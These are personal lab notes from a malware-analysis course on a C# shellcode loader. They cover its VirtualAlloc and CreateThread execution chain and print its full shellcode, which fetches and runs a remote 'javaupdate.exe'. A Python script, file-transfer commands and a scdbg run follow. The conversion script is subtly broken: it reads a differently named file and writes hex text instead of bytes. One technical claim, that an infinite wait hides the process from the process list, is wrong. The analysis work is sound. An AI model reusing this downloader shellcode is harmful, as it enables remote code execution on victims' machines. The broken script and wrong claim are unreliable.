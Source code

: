 In this section we will use:
- `PMAT-labs/labs/3-2.WhatTheShell-ShellcodeAnalysis/CarveFromText


# Studying the file
This is a `.cs` file:
- ![[Pasted image 20250211153913.png]]

This type of file is in the `C#` programming language. It is used for `.NET` application and so on. 

Basically it is used for windows applications.



So we open it in `Visual studio code`:
- ![[Pasted image 20250211154242.png]]

It is very interesting...

1.  **Shellcode (`rsrc` array)**
    - The `rsrc` byte array contains a **payload in raw machine code**.
    - It could be a malicious shellcode
2. **Memory Allocation (`VirtualAlloc`)**
    - Allocates memory with `MEM_COMMIT`, which is **writable but not executable yet**.
    - Copies the shellcode into the allocated memory using `Marshal.Copy()`.
3. **Modifying Memory Permissions (`VirtualProtect`)**
    - Changes the memory protection to `PAGE_EXECUTE_READ`, allowing execution.
4. **Executing the Payload (`CreateThread`)**
    - Creates a new thread pointing to the shellcode's memory address.
    - Waits for execution to complete with `WaitForSingleObject()`

`WaitForSingleObject(hThread, 0xFFFFFFFF)` is very intersting. 
- This because when we use `0xFFFFFFFF` we are putting in wait the thread for a non definite amount of time. So the process will never be into the process list.



## converting shellcode in readable text

We can do it using python.

We copy the shellcode into a file `shellcode.txt` in REMnux:
```C
0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x89,0xe6,0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0x31,0xff,0x57,0x57,0x57,0x57,0x56,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0xeb,0x63,0x5b,0x31,0xc9,0x51,0x51,0x6a,0x03,0x51,0x51,0x68,0xbb,0x01,0x00,0x00,0x53,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0xeb,0x4f,0x59,0x31,0xd2,0x52,0x68,0x00,0x32,0xa0,0x84,0x52,0x52,0x52,0x51,0x52,0x50,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x89,0xc6,0x6a,0x10,0x5b,0x68,0x80,0x33,0x00,0x00,0x89,0xe0,0x6a,0x04,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x31,0xff,0x57,0x57,0x57,0x57,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x4b,0x0f,0x84,0x71,0x00,0x00,0x00,0xeb,0xd1,0xe9,0x87,0x00,0x00,0x00,0xe8,0xac,0xff,0xff,0xff,0x00,0xeb,0x6b,0x31,0xc0,0x5f,0x50,0x6a,0x02,0x6a,0x02,0x50,0x6a,0x02,0x6a,0x02,0x57,0x68,0xda,0xf6,0xda,0x4f,0xff,0xd5,0x93,0x31,0xc0,0x66,0xb8,0x04,0x03,0x29,0xc4,0x54,0x8d,0x4c,0x24,0x08,0x31,0xc0,0xb4,0x03,0x50,0x51,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0x2d,0x58,0x85,0xc0,0x74,0x16,0x6a,0x00,0x54,0x50,0x8d,0x44,0x24,0x0c,0x50,0x53,0x68,0x2d,0x57,0xae,0x5b,0xff,0xd5,0x83,0xec,0x04,0xeb,0xce,0x53,0x68,0xc6,0x96,0x87,0x52,0xff,0xd5,0x6a,0x00,0x57,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0x6a,0x00,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0xe8,0x90,0xff,0xff,0xff,0x6a,0x61,0x76,0x61,0x75,0x70,0x64,0x61,0x74,0x65,0x2e,0x65,0x78,0x65,0x00,0xe8,0x0c,0xff,0xff,0xff,0x62,0x75,0x72,0x6e,0x2e,0x65,0x63,0x32,0x2d,0x31,0x33,0x2d,0x37,0x2d,0x31,0x30,0x39,0x2d,0x31,0x32,0x31,0x2d,0x75,0x62,0x75,0x6e,0x74,0x75,0x2d,0x32,0x30,0x30,0x34,0x2e,0x6c,0x6f,0x63,0x61,0x6c,0x00
```


At this point we create a python script that converts it:
```python
with open("shell.txt", "r") as file:
        hex_string = file.read().replace(",", "").replace("0x", "")
        hex_encode = hex_string.encode()

#print(hex_string)
#print(hex_encode)
with open("mal.bin", "wb") as file:
        file.write(hex_encode)
```
- we open the text file and we remove `0x` before each byte
- we save the binary content into a file called `mal.bin`

Now we need to pass the file into the windows machine so we open a server on REMnux:
```bash
sudo python3 -m http.server 80
```

And then on the windows machine:
```powershell
wget 10.0.0.4:80/mal.bin
```


# using scdbg to get info about the shellcode
At this point we run the command:
```powershell
scdbg /f mal.bin -s -1
```
- `/f` is for choosing the file
- `-s -1` is used to set a unlimited number on the number of steps to do

The result is:
- ![[Pasted image 20250211160717.png]]
- this shellcode downloads a file and then executes it